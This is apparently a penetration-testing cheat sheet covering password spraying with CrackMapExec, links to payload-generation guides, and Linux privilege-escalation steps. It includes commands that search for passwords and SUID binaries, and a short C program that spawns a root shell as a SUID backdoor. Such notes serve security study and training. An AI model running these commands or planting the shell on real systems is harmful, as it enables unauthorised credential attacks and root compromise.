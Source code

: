 Password Spraying (CrackMapExec)
----------------
- `cme smb 10.10.10.10 -u username -d domain -p password`

Payload Generation
----------------
- [NETSEC - Creating Payloads](https://netsec.ws/?p=331)
- [MsfVenom Cheatsheet](http://security-geek.in/2016/09/07/msfvenom-cheat-sheet/_)
- [Metasploit Unleashed Payloads](https://www.offensive-security.com/metasploit-unleashed/payloads/)
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
- Non-staged: netcat
- Staged: multi/handler

PHP
----------------
- [The differences between `exec()`, `shell_exec`, `system()` and `passthru()`](https://stackoverflow.com/questions/20072696/what-is-different-between-exec-shell-exec-system-and-passthru-functions?lq=1)


Priv Esc - Linux
----------------
# If GCC & wget is installed, the system MIGHT be vulnerable to a kernel exploit
- [Linux Kernel Exploits](https://github.com/SecWiki/linux-kernel-exploits)
- [GTFObins - Break ~~the f**k~~ out of restricted shells](https://gtfobins.github.io)
   * GTFO Helper script: https://github.com/dreadnaughtsec/gtfo
- [Linux Exploit Suggester](https://github.com/InteliSecureLabs/Linux_Exploit_Suggester)
- [Linux Exploit Suggester 2](https://github.com/jondonas/linux-exploit-suggester-2)
- [Basic Linux Privilege Escalation](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
- `grep -Ri 'password' .`
- `find / -perm –4000 2>/dev/null`
- `find / -perm -u=s 2>/dev/null`
- `find / -user root -perm -4000 -exec ls -ldb {} \;`
- `which awk perl python ruby gcc cc vi vim nmap find netcat nc wget tftp ftp 2>/dev/null`
(then ls -la, look for 777 file permissions).
- Custom SUID binary. Requires code execution as the target user. Example: mysql sys_eval as root.
```
#include<stdio.h>
#include<unistd.h>
#include<sys/types.h>

int main(){
    setuid(geteuid());
    system("/bin/bash");
    return 0;
}
```
